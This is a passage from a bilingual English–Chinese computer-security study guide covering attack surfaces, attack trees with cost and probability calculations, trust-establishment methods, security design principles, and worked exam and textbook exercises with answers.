- Human attack surface: vulnerabilities created by personnel or outsiders, for example social engineering, human error and trusted insiders.人员攻击面：由工作人员或外部人员造成的漏洞，例如社会工程学、人为错误和可信的内部人员。
Analysing the surface shows where mechanisms are needed and lets designers shrink it. Layering (Section 1.5) and surface reduction complement each other.分析攻击面可以看出需要在哪里设置机制，也可以让设计者缩小攻击面。分层（见第 1.5 节）与缩小攻击面相互补充。
Step 2: attack trees第 2 步：攻击树
In words: an attack tree = the goal of the attacker at the root, split into the ways to reach it, with a cost on every leaf.用文字表述：攻击树 = 根节点为攻击者的目标，并被拆分为达到该目标的各种途径，每个叶节点都带有一个成本。
An attack tree（攻击树）is a branching, hierarchical structure. The root is the attacker's goal. Each node is a subgoal. The leaves are the different ways to start an attack. An OR-node needs at least one subgoal. An AND-node needs all of them.攻击树是一种分支式的层次结构。根节点是攻击者的目标，每个节点是一个子目标，叶节点是发起攻击的不同方式。或节点只需满足至少一个子目标，与节点则需要全部子目标。
Open the safe OR
├── Pick the lock 30
├── Cut the safe open 100
└── Learn the combination OR
├── Find the written combination 75
├── Bribe the owner 60
└── Eavesdrop AND
├── Install a listening device 20
└── Get the owner to say the code 40
How to read it and draw one: 1. Write the attacker's goal as the root. 2. Split it into subgoals. Mark a node OR if one subgoal is enough and AND if all are needed. 3. Repeat until each leaf is one concrete attack with a cost. 4. Evaluate from the leaves up: AND sums, OR takes the minimum.如何读懂并画出攻击树：1. 把攻击者的目标写作根节点。2. 把它拆分为子目标。若一个子目标就够，标为或节点；若需要全部子目标，标为与节点。3. 重复这一过程，直到每个叶节点都是一个具体的、带有成本的攻击。4. 从叶节点向上求值：与节点求和，或节点取最小值。
Step 3: security strategy第 3 步：安全策略
A strategy answers three questions.一个策略要回答三个问题。
- Specification and policy: what is the scheme supposed to do?规范与策略：这个方案应当做什么？
- Implementation and mechanisms: how does it do it? Four complementary actions: prevention, detection, response and recovery.实现与机制：它如何做到？四项互补的行动：预防、检测、响应和恢复。
- Correctness and assurance: does it really work?正确性与保证：它真的有效吗？
A security policy（安全策略）is a formal statement of rules and practices that regulate how an organization provides security services. It is a business decision with two trade-offs: ease of use versus security, and cost of security versus cost of failure and recovery. Assurance（保证）is the confidence that a system enforces its policy. It is a matter of degree, not formal proof. Evaluation（评估）examines a product against criteria by testing and possibly formal analysis, so that products can be compared.安全策略是对规则和做法的正式陈述，用来规范一个组织如何提供安全服务。它是一项商业决策，涉及两种权衡：易用性与安全性之间的权衡，以及安全投入的成本与失效和恢复成本之间的权衡。保证是对系统确实执行其策略的信心。它是程度问题，而不是形式化证明。评估通过测试，并可能辅以形式化分析，依据准则检验产品，从而使不同产品可以相互比较。
Practice练习
Q1. (Calculation) An attack tree for reading Alice's e-mail has three OR branches: guess her password (cost 40, success probability 0.10); phishing, an AND node of two leaves, sending the phishing mail (cost 10, p = 0.9) and Alice entering her password on the fake site (cost 5, p = 0.2); steal her unlocked phone (cost 50, p = 0.05). (a) What is the cost of the cheapest attack? (b) Assuming independence, what is the probability that at least one branch succeeds? (c) After awareness training lowers the probability that Alice enters her password to 0.05, recompute (b).Q1. （计算）一棵用于读取 Alice 电子邮件的攻击树有三个 OR 分支：猜测其口令（代价 40，成功概率 0.10）；钓鱼，即由两个叶节点组成的 AND 节点，包括发送钓鱼邮件（代价 10，p = 0.9）以及 Alice 在伪造网站上输入口令（代价 5，p = 0.2）；窃取其未锁屏的手机（代价 50，p = 0.05）。（a）最便宜攻击的代价是多少？（b）假设各分支相互独立，至少一个分支成功的概率是多少？（c）在安全意识培训将 Alice 输入口令的概率降至 0.05 之后，重新计算（b）。
Answer
(a) Phishing costs \(10+5=15\) (AND = sum); the branches cost 40, 15 and 50, so the cheapest attack costs 15 (phishing). (b) The phishing branch succeeds with \(0.9\times0.2=0.18\) (AND = product). At least one branch succeeds with \(1-(0.9)(0.82)(0.95)=1-0.7011=0.2989\approx0.30\). (c) The phishing branch is now \(0.9\times0.05=0.045\), so \(1-(0.9)(0.955)(0.95)=1-0.8165=0.1835\approx0.18\). Training removes about 11.5 percentage points of risk by reducing the human attack surface.（a）钓鱼的代价为 \(10+5=15\)（AND 为求和）；各分支的代价分别为 40、15 和 50，因此最便宜的攻击代价为 15（钓鱼）。（b）钓鱼分支成功的概率为 \(0.9\times0.2=0.18\)（AND 为乘积）。至少一个分支成功的概率为 \(1-(0.9)(0.82)(0.95)=1-0.7011=0.2989\approx0.30\)。（c）钓鱼分支的概率现为 \(0.9\times0.05=0.045\)，因此 \(1-(0.9)(0.955)(0.95)=1-0.8165=0.1835\approx0.18\)。培训通过缩小人员攻击面，约降低了 11.5 个百分点的风险。
Q2. (Compare) Distinguish an attack surface from an attack tree, and give one web-shop example for each attack surface category.Q2. （比较）区分攻击面与攻击树，并为每一类攻击面各给出一个网上商店的示例。
Answer
An attack surface is the set of reachable, exploitable vulnerabilities: where an attacker can get in. Its analysis shows where mechanisms are needed and how to shrink the exposure. An attack tree is a structured analysis of how an attacker reaches one goal by combining steps (AND/OR), with values that allow comparing attacks. Network: an open administration port or a public API. Software: an SQL injection flaw in a web form. Human: a staff member who can be phished, or an insider with access to customer data.攻击面是可到达、可利用的漏洞的集合，即攻击者可以进入的地方。对攻击面的分析可以指出需要部署机制的位置，以及如何缩小暴露范围。攻击树则是对攻击者如何通过组合步骤（AND/OR）达成某一目标所做的结构化分析，其中的数值使各种攻击可以相互比较。网络攻击面：开放的管理端口或公开的 API。软件攻击面：Web 表单中的 SQL 注入漏洞。人员攻击面：可能遭受钓鱼的员工，或可访问客户数据的内部人员。
Trust, trustworthiness and standards ★信任、可信性与标准
Trust（信任）is the willingness of a party to be vulnerable to another party's actions, expecting that it will do something important to the truster, whether or not it can be monitored. Trust depends on the truster's propensity to trust（信任倾向）and the perceived trustworthiness（可信性）of the trustee. Trustworthiness has three factors: ability (competence), benevolence (goodwill, no intent to harm) and integrity (adherence to acceptable principles). An information system is trustworthy to the degree that it preserves confidentiality, integrity and availability. This needs security functionality (the features used) and security assurance (grounds for confidence that they work).信任是一方（信任方）愿意让自己易受另一方（受信方）行为的影响，基于这样的期望：受信方会做出对信任方重要的行为，而不论能否对其进行监控。信任取决于信任方的信任倾向，以及对受信方可信性的感知。可信性有三个因素：能力（胜任力）、善意（无意伤害）和诚信（遵守可接受的原则）。信息系统在多大程度上保持机密性、完整性和可用性，它就在多大程度上是可信的。这需要安全功能（所使用的功能）和安全保证（有理由相信这些功能确实有效）。
| Method方法 | Basis依据 |
|---|---|
| Validated trust（验证信任） | Evidence supplied by the trusted party, such as a security plan and assessment results由被信任方提供的证据，如安全计划和评估结果 |
| Direct historical trust（直接历史信任） | The party's past security record, especially in dealings with the truster该方过去的安全记录，尤其是在与信任者交往中的记录 |
| Mediated trust（中介信任） | A mutually trusted third party vouches, for example a certificate authority (Chapter 13)相互信任的第三方作出担保，例如证书颁发机构（CA，第 13 章） |
| Mandated trust（授权信任） | A mandate issued by a third party in authority由具有权威的第三方颁发的授权 |
Practice练习
Q1. (Match) Which trust-establishment method applies? (a) Company A buys a service after B supplies its security plan and assessment results. (b) Two firms trust each other because both trust the same certificate authority. (c) A regulator authorizes an organization to issue certificates for a group of firms, and they accept them. (d) A renews a contract because its supplier had no security incident in five years.Q1. （匹配）适用哪一种建立信任的方式？（a）公司 A 在 B 提供其安全计划和评估结果后购买了其服务。（b）两家公司相互信任，因为二者都信任同一证书颁发机构。（c）监管机构授权某组织为一组公司颁发证书，而这些公司接受这些证书。（d）公司 A 因其供应商五年内未发生安全事件而续签合同。
Answer
(a) Validated trust. (b) Mediated trust. (c) Mandated trust. (d) Direct historical trust.（a）验证式信任。（b）中介式信任。（c）授权式信任。（d）直接历史信任。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Cryptographic algorithm families密码算法族 | Keyless (hash, pseudorandom generators), single-key (symmetric ciphers, MAC), two-key (public-key ciphers, signatures, key exchange)无密钥（散列、伪随机数生成器）、单密钥（对称密码、MAC）、双密钥（公钥密码、签名、密钥交换） |
| Communications security通信安全 | Protects traffic against passive and active attacks with protocols such as IPsec, IEEE 802.11i, TLS, SSH利用 IPsec、IEEE 802.11i、TLS、SSH 等协议保护通信流量，抵御被动和主动攻击 |
| Device security设备安全 | Protects routers, switches, clients and servers from intruders with firewalls and intrusion detection and prevention利用防火墙、入侵检测和入侵防御，保护路由器、交换机、客户端和服务器免受入侵者攻击 |
| Standards bodies标准组织 | NIST (FIPS, Special Publications), IETF and IAB (RFCs), ITU-T (Recommendations such as X.800), ISONIST（FIPS、特别出版物）、IETF 和 IAB（RFC）、ITU-T（如 X.800 等建议书）、ISO |
| FIPS 199 | Rates the impact of a loss as low, moderate or high把损失的影响评为低、中或高 |
| RFC 4949 | The source of the four threat consequences四种威胁后果的来源 |
| Data origin versus peer entity authentication数据源认证与对等实体认证 | Data origin: source of one data unit. Peer entity: identity of a partner in a connection数据源认证：一个数据单元的来源。对等实体认证：连接中对方伙伴的身份 |
| Defence in depth纵深防御 | Several layers, so that one failure is not fatal. The same as layering多层防护，使单点失效不致命。与分层相同 |
| Residual risk剩余风险 | The risk that remains after countermeasures对策实施后仍然存在的风险 |
| Threat agent (adversary)威胁主体（对手） | Person, group or government that carries out or intends to carry out harmful activity实施或企图实施有害活动的个人、团体或政府 |
| Traffic padding流量填充 | Dummy bits in gaps of a data stream against traffic analysis在数据流的间隙插入伪比特，以对抗流量分析 |
| Propensity to trust信任倾向 | The level of risk a party tolerates across situations一方在各种情境中所能容忍的风险水平 |
Exam-style questions考试题型练习
Q1. (Concepts and classification, 12 marks) A hospital runs a public appointment web site and a patient-record database on one information system. (a) Define confidentiality, integrity, availability, authenticity and accountability. (5 marks) (b) Rate the impact of a loss of confidentiality, integrity and availability as low, moderate or high for the web site and for the record database, with one-line justifications. (4 marks) (c) What is the rating of the whole system? State the rule. (3 marks)Q1. （概念与分类，12 分）某医院在同一信息系统上运行一个公开的预约网站和一个患者病历数据库。（a）定义机密性、完整性、可用性、真实性和可追责性。（5 分）（b）对于网站和病历数据库，分别将机密性、完整性和可用性丧失的影响评为低、中或高，每项附一行理由。（4 分）（c）整个系统的评级是多少？请说明规则。（3 分）
Answer
(a) Confidentiality: preserving authorized restrictions on information access and disclosure (no unauthorized disclosure). Integrity: guarding against improper modification or destruction of information and against unauthorized manipulation of the system. Availability: timely and reliable access to and use of information and services. Authenticity: being genuine and verifiable, so users and inputs are who and what they claim. Accountability: actions can be traced uniquely to the entity responsible.（a）机密性：保持对信息访问和披露的授权限制（防止未授权泄露）。完整性：防止信息被不当修改或销毁，并防止对系统的未授权操纵。可用性：及时、可靠地访问和使用信息及服务。真实性：真实且可验证，即用户和输入确为其所声称的身份或内容。可追责性：行为能够唯一地追溯到负责的实体。
(b) Web site: confidentiality low (public information); integrity moderate (defaced or wrong appointments cause serious but not life-threatening harm); availability low (patients can phone instead). Record database: confidentiality high (disclosure of medical data harms individuals and breaks regulation); integrity high (a wrong allergy or dose entry can kill); availability high (clinicians need records for treatment, and downtime can endanger patients).（b）网站：机密性为低（信息公开）；完整性为中（页面被篡改或预约信息错误会造成严重但不危及生命的损害）；可用性为低（患者可以改用电话）。病历数据库：机密性为高（医疗数据泄露会损害个人并违反相关法规）；完整性为高（错误的过敏记录或剂量录入可能致人死亡）；可用性为高（临床医生需要病历进行治疗，停机可能危及患者）。
(c) The system takes, for each objective, the highest rating among its data sets (high-water mark): confidentiality high, integrity high, availability high, so the overall impact is high.（c）系统对每个目标取其各数据集中的最高等级（高水位标记）：机密性为高，完整性为高，可用性为高，因此总体影响为高。
思路：先逐目标分别评级，再取最大值；高水位规则是第 (c) 问的关键。
Q2. (Attack analysis, 15 marks) A client sends payment instructions to a bank server over an untrusted network. (a) Describe four attacks an adversary could mount, classify each as passive or active, and name its RFC 4949 threat consequence. (8 marks) (b) For each attack name the X.800 service and one mechanism that counters it. (4 marks) (c) Explain why the emphasis is on prevention for passive attacks but on detection and recovery for active attacks. (3 marks)Q2. （攻击分析，15 分）客户通过不可信网络向银行服务器发送付款指令。（a）描述对手可能发动的四种攻击，将每种攻击分类为被动或主动，并说明其 RFC 4949 威胁后果。（8 分）（b）针对每种攻击，指出对应的 X.800 服务以及一种对抗该攻击的机制。（4 分）（c）解释为什么对被动攻击的重点在于预防，而对主动攻击的重点在于检测和恢复。（3 分）
Answer
| Attack攻击 | Type类型 | Threat consequence威胁后果 | Service服务 | Mechanism机制 |
|---|---|---|---|---|
| Eavesdropping on the instructions (release of message contents)窃听指令（消息内容泄露） | Passive被动 | Unauthorized disclosure (interception)未授权泄露（截获） | Data confidentiality数据机密性 | Encryption加密 |
| Replay of a captured payment instruction重放截获的付款指令 | Active主动 | Deception (masquerade)欺骗（伪装） | Connection-oriented integrity, peer entity authentication面向连接的完整性、对等实体认证 | Sequence numbers or timestamps with a MAC; authentication exchange结合 MAC 使用的序列号或时间戳；认证交换 |
| Man-in-the-middle change of amount or account中间人篡改金额或账户 | Active主动 | Deception (falsification)欺骗（篡改） | Data integrity, authentication数据完整性、认证 | MAC or digital signatureMAC 或数字签名 |
| Flooding the server淹没服务器（洪泛） | Active主动 | Disruption (obstruction)中断（阻碍） | Availability可用性 | Filtering and access control, redundancy过滤与访问控制、冗余 |
(c) Passive attacks leave the data unchanged, so they cannot be detected, but encryption can prevent them. Active attacks cannot be prevented absolutely, because that needs physical protection of all communication facilities and paths at all times; the goal is therefore to detect them (integrity checks, authentication) and recover, and detection also deters.（c）被动攻击不改变数据，因此无法被检测到，但加密可以预防它们。主动攻击无法被绝对预防，因为那需要时刻对所有通信设施和路径进行物理保护；因此目标是检测它们（完整性校验、认证）并从中恢复，而检测同时也起威慑作用。
Q3. (Design principles, 12 marks) (a) State six of the thirteen fundamental design principles, each with a one-line illustration. (6 marks) (b) For each case name the violated principle and propose a fix: (i) permissions are checked once at login and cached for the session; (ii) a backup daemon runs as administrator at all times; (iii) a firewall allows all traffic except from listed hosts; (iv) ten applications each implement their own encryption routines. (6 marks)Q3. （设计原则，12 分）（a）列出十三条基本设计原则中的六条，每条附一行说明。（6 分）（b）对于以下每种情形，指出所违反的原则并提出修复方案：（i）权限只在登录时检查一次，并在整个会话期间缓存；（ii）备份守护进程始终以管理员身份运行；（iii）防火墙允许除列出主机之外的所有流量；（iv）十个应用各自实现了自己的加密例程。（6 分）
Answer
(a) Any six, for example: economy of mechanism (a small simple mechanism is easier to verify); fail-safe defaults (default deny); complete mediation (check every access); open design (public algorithm, secret key); separation of privilege (password plus smart card); least privilege (role-based access control); isolation (public web server separated from critical data); layering (defense in depth).（a）任选六条，例如：机制经济性（小而简单的机制更易于验证）；失败-安全默认（默认拒绝）；完全仲裁（检查每一次访问）；开放设计（算法公开，密钥保密）；权限分离（口令加智能卡）；最小权限（基于角色的访问控制）；隔离（公共 Web 服务器与关键数据分开）；分层（纵深防御）。
(b) (i) Complete mediation: check the permission at every access, or propagate revocations to the cache. (ii) Least privilege: run with the privileges of the task, and elevate only for the privileged step in a separate process. (iii) Fail-safe defaults: default deny, then allow listed traffic. (iv) Modularity (and economy of mechanism): use one common, protected cryptographic module that all applications call.（b）（i）完全仲裁：每次访问都检查权限，或者将撤销结果传播到缓存中。（ii）最小权限：以任务所需的权限运行，仅在一个单独进程中的特权步骤才提升权限。（iii）失败-安全默认：默认拒绝，然后允许列出的流量。（iv）模块化（以及机制经济性）：使用一个通用的、受保护的密码模块，供所有应用调用。
Q4. (Attack tree and attack surface, 15 marks) An attacker wants the examination paper before the exam. Option 1: steal the printed copies, which needs entering the print room (cost 30) and opening the storage cabinet (cost 20). Option 2: obtain the electronic file, by guessing the lecturer's password (40), phishing the lecturer (25) or exploiting the file server (80). Option 3: bribe an insider, either the lecturer (100) or print-room staff (60). (a) Draw the attack tree with AND/OR nodes. (5 marks) (b) Compute the cost of each option and of the cheapest attack. (4 marks) (c) Two-factor authentication adds a leaf of cost 70 in AND with each password-based leaf. Recompute and comment. (4 marks) (d) Assign phishing the lecturer, exploiting the file server and bribing print-room staff to attack surface categories. (2 marks)Q4. （攻击树与攻击面，15 分）攻击者希望在考试前拿到考卷。方案 1：窃取打印好的副本，这需要进入打印室（代价 30）并打开储物柜（代价 20）。方案 2：获取电子版文件，途径包括猜测讲师的口令（代价 40）、钓鱼攻击讲师（代价 25），或利用文件服务器（代价 80）。方案 3：贿赂内部人员，可以是讲师（代价 100）或打印室工作人员（代价 60）。（a）用 AND/OR 节点画出攻击树。（5 分）（b）计算每个方案以及最便宜攻击的代价。（4 分）（c）双因素认证对每个基于口令的叶节点，增加一个与之构成 AND 关系、代价为 70 的叶节点。重新计算并加以评论。（4 分）（d）将“钓鱼攻击讲师”“利用文件服务器”和“贿赂打印室工作人员”分别归入攻击面类别。（2 分）
Answer
(a) Root "obtain the paper" (OR) with three children. Option 1 (AND): enter print room (30), open cabinet (20). Option 2 (OR): guess password (40), phish lecturer (25), exploit file server (80). Option 3 (OR): bribe lecturer (100), bribe print-room staff (60).（a）根节点“获取考卷”（OR），有三个子节点。方案 1（AND）：进入打印室（30），打开储物柜（20）。方案 2（OR）：猜测口令（40），钓鱼攻击讲师（25），利用文件服务器（80）。方案 3（OR）：贿赂讲师（100），贿赂打印室工作人员（60）。
(b) Option 1 (AND) \(=30+20=50\). Option 2 (OR) \(=\min(40,25,80)=25\). Option 3 (OR) \(=\min(100,60)=60\). Root \(=\min(50,25,60)=25\): phishing the lecturer is the cheapest attack.（b）方案 1（AND）\(=30+20=50\)。方案 2（OR）\(=\min(40,25,80)=25\)。方案 3（OR）\(=\min(100,60)=60\)。根节点 \(=\min(50,25,60)=25\)：钓鱼攻击讲师是最便宜的攻击。
(c) Guessing becomes \(40+70=110\) and phishing \(25+70=95\), so option 2 \(=\min(110,95,80)=80\) (the file server is now its cheapest leaf). Root \(=\min(50,80,60)=50\): the cheapest attack moves to physical theft and its cost doubles from 25 to 50. Hardening one branch only moves the attacker to the next cheapest one, so the physical branch (locks, logging) must be raised next.（c）猜测口令的代价变为 \(40+70=110\)，钓鱼变为 \(25+70=95\)，因此方案 2 变为 \(=\min(110,95,80)=80\)（文件服务器现在是它最便宜的叶节点）。根节点 \(=\min(50,80,60)=50\)：最便宜的攻击转移到实物窃取，其代价从 25 翻倍至 50。仅加固一个分支只会使攻击者转向下一个最便宜的分支，因此接下来必须提高实物分支（锁具、日志记录）的防护。
(d) Phishing the lecturer: human attack surface. Exploiting the file server: software (and network) attack surface. Bribing print-room staff: human attack surface (trusted insider).（d）钓鱼攻击讲师：人员攻击面。利用文件服务器：软件（以及网络）攻击面。贿赂打印室工作人员：人员攻击面（受信任的内部人员）。
Q5. (Strategy, risk and trust, 12 marks) A university database has a loss of $400,000 per breach (SLE) and an annual rate of occurrence of 0.25. Option X costs $30,000 per year and reduces the rate to 0.05. Option Y costs $75,000 per year and reduces it to 0.02. (a) Compute the expected annual loss without countermeasure. (2 marks) (b) Which option minimizes the total annual cost? (4 marks) (c) Why is security policy a business decision? Name two trade-offs. (3 marks) (d) The university outsources hosting to a cloud provider. Name three ways of establishing trust in the provider. (3 marks)Q5. （策略、风险与信任，12 分）某大学数据库每次泄露造成 $400,000 的损失（SLE），年发生率为 0.25。方案 X 每年花费 $30,000，可将发生率降至 0.05。方案 Y 每年花费 $75,000，可将其降至 0.02。（a）计算无对策时的年期望损失。（2 分）（b）哪一种方案使每年的总成本最低？（4 分）（c）为什么安全策略是一项商业决策？请指出两种权衡。（3 分）（d）该大学将托管业务外包给云服务提供商。请指出建立对该提供商信任的三种方式。（3 分）
Answer
(a) \(0.25\times400{,}000=\$100{,}000\) per year.（a）每年 \(0.25\times400{,}000=\$100{,}000\)。
(b) X: \(0.05\times400{,}000+30{,}000=20{,}000+30{,}000=\$50{,}000\). Y: \(0.02\times400{,}000+75{,}000=8{,}000+75{,}000=\$83{,}000\). X minimizes the total cost and saves $50,000 per year; Y saves only $17,000, although it leaves the lowest residual risk.（b）X：\(0.05\times400{,}000+30{,}000=20{,}000+30{,}000=\$50{,}000\)。Y：\(0.02\times400{,}000+75{,}000=8{,}000+75{,}000=\$83{,}000\)。X 使总成本最低，每年节省 $50,000；Y 只节省 $17,000，尽管其剩余风险最低。
(c) The owner must weigh the value of the assets, the vulnerabilities, the threats and likelihoods against costs, and the result may be set by legal requirements. Trade-offs: ease of use versus security, and cost of security versus cost of failure and recovery.（c）所有者必须将资产价值、漏洞、威胁及其可能性与成本进行权衡，其结果也可能由法律要求决定。权衡包括：易用性与安全性之间的权衡，以及安全成本与失效及恢复成本之间的权衡。
(d) Validated trust (the provider's security plan and assessment or audit results); direct historical trust (its record of past incidents); mediated trust (an independent certification or certificate authority); mandated trust (a regulator's list of approved providers). The relationship is formalized in a contract and service-level agreement.（d）验证式信任（提供商的安全计划及评估或审计结果）；直接历史信任（其过往安全事件的记录）；中介式信任（独立认证或证书颁发机构）；授权式信任（监管机构的核准提供商名单）。该关系以合同和服务水平协议的形式予以正式确立。
Textbook exercises课后习题
Textbook exercises with answers: 15 questions教材习题及答案，共 15 题，点击展开
E1. (Review Question 1.1, Stallings & Brown) Define computer security.E1.（复习题 1.1，Stallings & Brown）定义计算机安全。
Answer
Computer security is the protection afforded to an automated information system in order to attain the applicable objectives of preserving the confidentiality, integrity and availability of its resources, which include hardware, software, firmware, information and data, and telecommunications. In other words, it is the set of measures and controls that keep information processed and stored by a computer secret from unauthorized parties (confidentiality), changed only in an authorized way (integrity), and usable by authorized users when needed (availability). The three objectives are the CIA triad; authenticity and accountability are often added as two further objectives.计算机安全是为自动化信息系统提供的保护，目的是维护其资源（包括硬件、软件、固件、信息和数据，以及电信）的机密性、完整性和可用性，并达到相应的目标。换句话说，它是一套措施和控制，使计算机处理和存储的信息不被未授权方获知（机密性），只能以授权的方式被更改（完整性），并能在需要时被授权用户使用（可用性）。这三个目标构成 CIA 三元组；真实性和可追责性常被再加入，作为另外两个目标。
思路：计算机安全 = 保护信息系统的 CIA 三个目标。
E2. (Review Question 1.2, Stallings & Brown) What is the difference between passive and active security threats?E2.（复习题 1.2，Stallings & Brown）被动安全威胁与主动安全威胁有什么区别？
Answer
A passive attack tries to learn or use information from the system without affecting system resources: the attacker only eavesdrops on or monitors transmissions. It changes no data, so the legitimate parties see normal traffic and the attack is very hard to detect; the emphasis is on prevention, usually by encryption.被动攻击试图在不影响系统资源的前提下获取或利用系统中的信息：攻击者只是窃听或监视传输。它不改变任何数据，因此合法各方看到的都是正常流量，攻击很难被检测到。重点在于预防，通常靠加密。
An active attack tries to alter system resources or affect their operation: it modifies the data stream, creates a false stream, or blocks service. Absolute prevention would need physical protection of all facilities at all times, which is impractical, so the emphasis is on detection of the attack and recovery from the disruption or delay it causes.主动攻击试图改变系统资源或影响其运行：它修改数据流、制造虚假的数据流，或阻断服务。要绝对预防，就需要随时对所有设施进行物理保护，这不现实，因此重点在于检测攻击，并从它造成的中断或延迟中恢复。
思路：被动只看不改，重在预防；主动要改动或伪造，重在检测与恢复。
E3. (Review Question 1.3, Stallings; 1.3, Stallings & Brown) List and briefly define categories of passive and active network security attacks.E3.（复习题 1.3，Stallings；1.3，Stallings & Brown）列出网络安全攻击的被动和主动类别，并简要定义。
Answer
Passive attacks (two categories):被动攻击（两类）：
- Release of message contents: the opponent reads the content of a call, e-mail message or file that is sensitive or confidential.消息内容泄露：对手读取通话、电子邮件或文件中敏感或机密的内容。
- Traffic analysis: even if the contents are encrypted, the opponent observes the identity and location of the communicating hosts and the frequency and length of the messages, and infers the nature of the communication.流量分析：即使内容已加密，对手仍可观察通信主机的身份和位置，以及消息的频率和长度，并由此推断通信的性质。
Active attacks (four categories):主动攻击（四类）：
- Replay: a captured data unit is retransmitted later to produce an unauthorized effect.重放：被截获的数据单元之后被重新发送，以产生未授权的效果。
- Masquerade: one entity pretends to be another, often combined with another active attack (for example, a replayed authentication sequence).伪装：一个实体冒充另一个实体，常与另一种主动攻击结合使用（例如重放认证序列）。
- Modification of messages: part of a legitimate message is altered, or messages are delayed or reordered, to produce an unauthorized effect.消息篡改：合法消息的一部分被改动，或消息被延迟或重新排序，以产生未授权的效果。
- Denial of service: normal use or management of communication facilities is prevented or inhibited, either against one target or by disrupting a whole network.拒绝服务：通信设施的正常使用或管理被阻止或抑制，既可以针对单个目标，也可以通过扰乱整个网络实现。
思路：被动 = 内容泄露 + 流量分析；主动 = 重放、伪装、改写、拒绝服务。
E4. (Review Question 1.6, Stallings; 1.4, Stallings & Brown) List and briefly define the fundamental security design principles.E4.（复习题 1.6，Stallings；1.4，Stallings & Brown）列出基本安全设计原则，并简要定义。
Answer
| Principle原则 | Meaning含义 |
|---|---|
| Economy of mechanism机制经济性 | Keep the security mechanism as simple and small as possible, so that it is easy to verify.使安全机制尽可能简单、小巧，以便于验证。 |
| Fail-safe defaults失败-安全默认 | Base access decisions on permission, not exclusion: the default is no access.以许可而非排除为依据做出访问决定：默认是不允许访问。 |
| Complete mediation完全仲裁 | Check every access against the access control mechanism; do not rely on cached decisions.每次访问都要经过访问控制机制检查；不要依赖缓存的决定。 |
| Open design开放设计 | The design of a mechanism is not kept secret; only keys are secret, so that many experts can review it.机制的设计不保密，只有密钥保密，以便众多专家可以审查它。 |
| Separation of privilege权限分离 | Require several privilege attributes for access (for example password plus smart card), or split a program into parts with minimal privileges.访问需要多个权限属性（例如口令加智能卡），或把程序拆分为各自只拥有最小权限的若干部分。 |
| Least privilege最小权限 | Each process and user gets only the privileges needed for its task.每个进程和用户只获得完成其任务所需的权限。 |
| Least common mechanism最小共用机制 | Minimize the functions shared by different users, which reduces unintended communication paths.尽量减少不同用户之间共享的功能，从而减少非预期的通信路径。 |
| Psychological acceptability心理可接受性 | The mechanism must not interfere unduly with users and must match their mental model of protection.机制不得过度干扰用户，并且要符合用户对保护的心理模型。 |
| Isolation隔离 | Separate public systems from critical resources, users' processes and files from each other, and protect the security mechanisms themselves.把公共系统与关键资源分开，把用户的进程和文件彼此分开，并保护安全机制本身。 |
| Encapsulation封装 | A form of isolation: data objects and procedures live in a domain of their own, reachable only through designated entry points.隔离的一种形式：数据对象和过程各自位于独立的域中，只能通过指定的入口访问。 |
| Modularity模块化 | Build security functions as separate, protected modules inside a modular architecture.在模块化体系结构中，把安全功能构建为彼此独立、受保护的模块。 |
| Layering分层 | Use several overlapping protection approaches (defense in depth), so that one failure does not leave the system unprotected.采用多种相互重叠的保护方法（纵深防御），使单点失效不会让系统失去保护。 |
| Least astonishment最小惊讶 | Interfaces respond in the way least likely to surprise the user.接口以最不可能让用户感到意外的方式响应。 |
思路：十三条原则；考试时要说出名字、含义和违反后果。
E5. (Review Question 1.5, Stallings & Brown) Explain the difference between an attack surface and an attack tree.E5.（复习题 1.5，Stallings & Brown）解释攻击面与攻击树之间的区别。
Answer
An attack surface is the set of reachable and exploitable vulnerabilities of a system, for example open ports and the code listening on them, code that parses incoming data, web forms, and employees open to social engineering. It has three categories: network, software and human attack surface. It answers the question "where can an attacker get in?" and is used to assess the scale of the threat and to shrink the exposed part.攻击面是系统中可被触及且可被利用的漏洞的集合，例如开放的端口及监听这些端口的代码、解析输入数据的代码、网页表单，以及容易受社会工程学攻击的员工。它分为三类：网络攻击面、软件攻击面和人员攻击面。它回答的问题是“攻击者能从哪里进入？”，用于评估威胁的规模，并缩小暴露在外的部分。
An attack tree is a branching, hierarchical structure that shows how a specific attacker goal can be reached. The goal is the root, each node is a subgoal, and the leaves are the concrete ways to start an attack. Non-leaf nodes are OR nodes (one subgoal is enough) or AND nodes (all subgoals are needed), and the leaves can carry cost, difficulty or probability. It answers the question "how can the attacker reach this goal, and which way is cheapest?"攻击树是一种分支式的层次结构，展示攻击者某一特定目标如何达到。目标是根节点，每个节点是一个子目标，叶节点是发起攻击的具体方式。非叶节点是或节点（一个子目标即可）或与节点（需要全部子目标），叶节点可以带有成本、难度或概率。它回答的问题是“攻击者如何达到这一目标，哪条路径最便宜？”
So the surface lists the entry points, and the tree organizes the steps from entry points to a goal.因此，攻击面列出的是入口，而攻击树则组织从入口到目标的各个步骤。
思路：攻击面 = 能从哪里进；攻击树 = 怎样一步步达到某个目标。
E6. (Review Question 1.1, Stallings) What is the OSI security architecture?E6.（复习题 1.1，Stallings）什么是 OSI 安全体系结构？
Answer
The OSI security architecture is ITU-T Recommendation X.800, "Security Architecture for OSI". It gives managers a systematic way of defining the requirements for security and of characterizing the approaches that satisfy them. It is organized around three elements:OSI 安全体系结构即 ITU-T 建议书 X.800“OSI 安全体系结构”。它为管理者提供了一种系统的方法，用来定义安全需求，并刻画满足这些需求的途径。它围绕三个要素组织：
- Security attack: any action that compromises the security of information owned by an organization.安全攻击：任何损害组织所拥有信息安全性的行为。
- Security service: a processing or communication service that enhances the security of data processing systems and information transfers; it counters attacks and uses one or more security mechanisms.安全服务：一种处理或通信服务，可增强数据处理系统和信息传输的安全性；它对抗攻击，并使用一种或多种安全机制。
- Security mechanism: a process (or a device containing it) designed to detect, prevent or recover from a security attack.安全机制：旨在检测、预防或从安全攻击中恢复的过程（或包含该过程的设备）。
思路：X.800 用“攻击、服务、机制”三个概念描述安全需求。
E7. (Review Question 1.2, Stallings) List and briefly define the three key objectives of computer security.E7.（复习题 1.2，Stallings）列出计算机安全的三个关键目标，并简要定义。
Answer
- Confidentiality: private or confidential information is not made available or disclosed to unauthorized individuals. It covers data confidentiality and privacy (individuals control what information about them is collected, stored and disclosed).机密性：私密或机密信息不得提供给未授权个人，也不得向其泄露。它涵盖数据机密性和隐私（个人控制与自己有关的信息如何被收集、存储和披露）。
- Integrity: information and programs are changed only in a specified and authorized manner (data integrity), and a system performs its intended function free from unauthorized manipulation (system integrity).完整性：信息和程序只能以指定的、授权的方式更改（数据完整性），系统在不受未授权操纵的情况下执行其预定功能（系统完整性）。
